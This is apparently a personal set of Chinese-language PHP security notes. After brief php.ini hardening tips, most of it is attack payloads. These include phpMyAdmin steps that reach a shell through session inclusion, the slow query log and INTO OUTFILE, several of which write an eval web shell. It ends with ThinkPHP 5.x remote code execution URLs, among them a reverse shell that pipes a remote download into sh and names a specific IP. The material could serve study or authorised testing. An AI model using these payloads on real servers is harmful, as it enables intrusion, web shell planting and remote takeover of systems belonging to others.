 ## php.ini
php.ini并放置在httpd.conf中PHPIniDir指定的目录，使用phpinfo()函数可以查看

```ini
safe_mode = off 避免各种奇怪的失败
register_globals 关闭
open_basedir 配置， 防止目录遍历
allow_url_fopen 关闭 文件打开限制
display_error =off 避免攻击者获取更多信息
expose_php = off 隐藏版本信息
```

## 代码审计练习
https://github.com/hongriSec/PHP-Audit-Labs

两款代码审计工具 seay ,RIPS



## phpmyadmin 密码修改
1. 更改用户中的密码
2. `config.inc.php`中password修改

## 序列化和反序列化

CVE-2016-7124

## 变量覆盖漏洞
　　变量覆盖指的是用我们自定义的参数值替换程序原有的变量值，一般变量覆盖漏洞需要结合程序的其它功能来实现完整的攻击 变量覆盖漏洞大多数由函数使用不当导致，经常引发变量覆盖漏洞的函数有：extract(),parse_str()和import_request_variables()

## RCE(远程代码执行)
命令注入攻击中WEB服务器没有过滤类似system(),eval()，exec()等函数是该漏洞攻击成功的最主要原因。
```php
System() //有回显
exec() //无回显
shell_exec() //无回显
passthru() //有回显
```

### ereg()
出现%00 则只检查%00前面的字符串
### preg_replace()
正则表达式替换，第一个参数/e结束时，会将第二个参数当成代码执行

### 序列化与反序列化
unserialize 会调用__wakeup 函数

### assert()

当第一参数是字符串时，执行字符串代码


## php7 直接崩溃bug
`include(‘php://filter/string.strip_tags/resource=/etc/passwd’)`
## phar
TODO:
https://blog.csdn.net/ru_li/article/details/51452488
http://www.vuln.cn/2035
http://www.webhek.com/post/packaging-your-php-apps-with-phar.html
## phpmyadmin
### 本地session包含
1. root登录，执行 `select '<?php phpinfo();exit;?>'`
2. 找到phpmyadmin cookie，`/index.php?target=db_sql.php%253f/../../var/lib/php/sessions/<you cookie>`

### 文件包含getshell

获取web绝对路径(`select @@basedir;`)

### 日志getshell
```sql
set global slow_query_log=1; --开启慢查询日志
show global variables like '%long_query_time%'
# 默认10秒

set global slow_query_log_file='dir\filename';
select '<?php phpinfo();?>' or sleep(11);
```
### 文件写入shell
方法一：
```sql
SHOW VARIABLES LIKE '%secure_file_priv%'; 
# 结果为null时无法写入文件
select '<?php @eval_r($_POST[cmd])?>'INTO OUTFILE '网站目录路径/eval.php'
```
方法二：
1. test数据库下新建表，字段名`<?php phpinfo()?>`
2. 查看sql文件路径`show variables like '%datadir%'`
3. getshell `/index.php?target=db_sql.php%253f/../../var/lib/mysql/test/hy.frm`


## think php5.x RCE

```
https://learnku.com/articles/21227  
范围： 5.x < 5.1.31, <= 5.0.23  
补丁：https://github.com/top-think/framework/commit/b797d72352e6b4eb0e11b6bc2a2ef25907b7756f  
https://github.com/top-think/framework/commit/802f284bec821a608e7543d91126abc5901b2815  
payload: 
http://localhost:9096/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

http://localhost:9096/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20^%3C?php%20@eval($_GET[%22code%22])?^%3E%3Eshell.php

http://localhost:9096/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=../test.php&vars[1][]=<?php echo 'ok';?>
shell反弹：
http://121.12.172.119:30022//?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=curl+https%3A%2F%2Fshell.now.sh%2F154.223.145.173%3A1337+%7C+sh
```